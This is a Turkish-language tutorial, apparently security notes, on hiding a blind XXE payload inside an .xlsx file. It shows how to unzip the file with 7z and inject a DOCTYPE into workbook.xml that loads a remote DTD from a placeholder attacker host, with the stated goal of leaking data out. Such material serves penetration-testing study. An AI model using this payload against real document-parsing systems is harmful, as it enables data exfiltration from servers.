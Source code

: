 
### 99-XXE XLSX dosyasının içinde

Bir `.xlsx` dosyası aslında **sıkıştırılmış (ZIP formatında)** bir klasördür. İçinde bir sürü XML dosyası barındırır ve bu XML dosyaları Excel dosyasının içeriğini (veriler, stil, shared strings vb.) tanımlar.

Bu nedenle `.xlsx` dosyasını açtığınızda şu gibi bir yapı görürsünüz:

```
xl/workbook.xml              --> Excel dosyasının ana iskeleti
xl/sharedStrings.xml         --> Hücrelerdeki metinler burada
xl/worksheets/sheet1.xml     --> Sayfanın içeriği
[Content_Types].xml          --> Tür tanımları
_rels/.rels                  --> İlişkiler
...
```

Hedef: Bu XML dosyalarından birine XXE payload yerleştirerek dışarı bilgi sızdırmak

##### Gerekli Araçlar:

1. `7z` → dosyayı çıkarmak için (veya `unzip`)
2. `zip -u` → dosyayı yeniden güncellemek için
3. `Python HTTP + FTP server` (örn. [staaldraad/xxeserv](https://github.com/staaldraad/xxeserv))
4. Payload yerleştirilecek dosya editörü (örneğin `vim`, `nano`, `code`, `notepad++`)

1-Excel Dosyasını Aç
* Önce `.xlsx` dosyasını bir klasöre çıkartalım:

```
7z x -oXXE xxe.xlsx
```

Bu işlem sonunda `XXE` klasöründe açılmış XML dosyaları olacak.

2.  Payload'u Enjekte Et

 Örnek olarak: `xl/workbook.xml` içine blind XXE payload'u ekleyelim:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [
  <!ELEMENT cdl ANY >
  <!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">
  %asd;
  %c;
]>
<cdl>&rrr;</cdl>

<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main"
          xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">

```

Yukarıda `xxe.dtd` adında remote olarak indirilecek bir DTD dosyasına referans var. Böylece dosyayı her test etmek istediğinde Excel dosyasını yeniden oluşturmak zorunda kalmazsın, sadece DTD dosyasını değiştirmen yeterli olur.
